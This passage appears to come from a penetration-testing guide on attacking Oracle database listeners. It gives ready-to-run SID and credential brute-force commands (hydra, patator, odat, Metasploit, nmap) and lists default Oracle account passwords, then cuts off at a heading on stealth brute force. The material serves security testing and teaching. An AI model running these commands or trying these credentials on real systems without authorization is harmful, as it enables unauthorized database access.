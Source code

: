 If you cant access this way to the SIDs you will need to bruteforce them:

<h3>SID Bruteforce</h3>

I have merged the nmap and MSF sid lists into this one (without duplicates):

[sids-oracle.txt](https://secybr.com/assets/file/sids-oracle.txt)

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 <IP> oracle-sid
patator oracle_login host=<IP> sid=FILE0 0=sids-oracle.txt -x ignore:code=ORA-12505
./odat.py sidguesser -s $SERVER -d $SID --sids-file=./sids.txt
msf> use auxiliary/admin/oracle/sid_brute #This will use the list located at /usr/share/metasploit-framework/data/wordlists/sid.txt
nmap --script +oracle-sid-brute -p 1521 10.11.1.202 #This will use the list lcated at /usr/share/nmap/nselib/data/oracle-sids
```

In order to use `oracle_login` with patator you need to install:

```bash
pip3 install cx_Oracle --upgrade
```

<h2>Targeting Accounts</h2>

Got SID? Excellent, now let’s move to the next task and extract the user account information. From this point, you can connect to the listener and brute-force credentials.

Metasploit `scanner/oracle/oracle_login` It has a built-in dictionary for the most popular default values of user account information presented as `login:password`. By the way, such default entries represent one of the most popular and serious security problems in Oracle.

Nmap can also help here with the script `oracle-brute`. Note that this script mixes the logins and passwords, that is, it tries each login against every password, and it takes quite a while!

<h3>Default Passwords</h3>

Below are some of the default passwords associated with Oracle:

```bash
DBSNMP/DBSNMP - Intelligent Agent uses this to talk to the db server (its some work to change it)
SYS/CHANGE_ON_INSTALL - Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
PCMS_SYS/PCMS_SYS - Default x account
WMSYS/WMSYS - Default x account
OUTLN/OUTLN - Default x account
SCOTT/TIGER - Default x account
```

Other default passwords can be found [here](http://www.petefinnigan.com/default/oracle_default_passwords.htm) and [here](https://cirt.net/passwords?vendor=Oracle).

The versions `11.1.0.6`, `11.1.0.7`, `11.2.0.1`, `11.2.0.2`, and `11.2.0.3` are vulnerable to offline brute force.

<h3>Remote Stealth Pass Brute Force</h3>

Outer Perimeter: Remote stealth pass brute force
